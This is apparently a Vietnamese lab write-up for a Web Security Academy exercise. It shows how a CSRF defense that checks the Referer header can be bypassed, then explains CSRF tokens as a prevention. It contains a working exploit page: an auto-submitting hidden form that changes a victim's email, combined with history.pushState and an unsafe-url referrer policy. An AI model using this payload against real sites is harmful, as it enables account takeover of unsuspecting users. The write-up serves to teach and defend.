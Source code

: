 #### Analysis
- Thử thay đổi email trong request `change-email` với việc bỏ **header Referer** => `"Invalid referer header"`
- Thử thay đổi email trong request `change-email` với việc đặt tên miền của nạn nhân trong phần query string => Thành công
```http
POST /my-account/change-email HTTP/2
Host: 0a6c00b50460461a8049033000d7000e.web-security-academy.net
...
Referer: https://exploit-0ad8004f04d746e48050023501580002.exploit-server.net?abc=0a6c00b50460461a8049033000d7000e.web-security-academy.net
...
email=evil%40gmail.com
```
- Lợi dụng điều này để khai thác 
#### Exploit
- Tạo mã khai thác và thêm vào body của **Exploit Server** 
```html
    <head>
        <meta name="referrer" content="unsafe-url">
    </head>
    <form action="https://0a6c00b50460461a8049033000d7000e.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="evil@gmail.com">
        <input type="submit" value="Submit">
    </form>
    <script>
        history.pushState("", "", "/?0a6c00b50460461a8049033000d7000e.web-security-academy.net");
        document.forms[0].submit();
    </script>
```
- `history.pushState()`:  Khi form submit, browser sẽ set Referer là 
```
https://exploit-0ad8004f04d746e48050023501580002.exploit-server.net/?0a6c00b50460461a8049033000d7000e.web-security-academy.net
```
- Vấn đề: Trình duyệt mặc định không gửi phần ?xxx=... trong Referer nữa (vì lý do bảo mật). Vì vậy mặc dù pushState thành công, Referer thật sự chỉ là:
```
https://exploit-0ad8004f04d746e48050023501580002.exploit-server.net
```
- `Referrer-Policy: unsafe-url` buộc trình duyệt sẽ gửi **Referer** đẩy đủ, bao gồm query string chứa domain hợp lệ

> **Header** này có thể bị **browser** hoặc **CSP (Content Security Policy)** giới hạn hoặc ghi đè trong môi trường thực tế.
{: .prompt-warning }

## Prevent
---
Hiện nay, để khai thác thành công một lỗ hổng **CSRF**, kẻ tấn công thường phải vượt qua các biện pháp phòng vệ được triển khai bởi website mục tiêu, trình duyệt của nạn nhân, hoặc cả hai.
### CSRF Token 
- Là một chuỗi ngẫu nhiên, bí mật và không đoán được được máy chủ tạo ra và gửi cho client (trình duyệt).
- Khi người dùng thực hiện hành động nhạy cảm (ví dụ gửi form), trình duyệt phải gửi lại **CSRF token** đó kèm theo yêu cầu.
- Kẻ tấn công không biết token nên không thể gửi yêu cầu hợp lệ, ngay cả khi có thể ép nạn nhân thực hiện hành động.
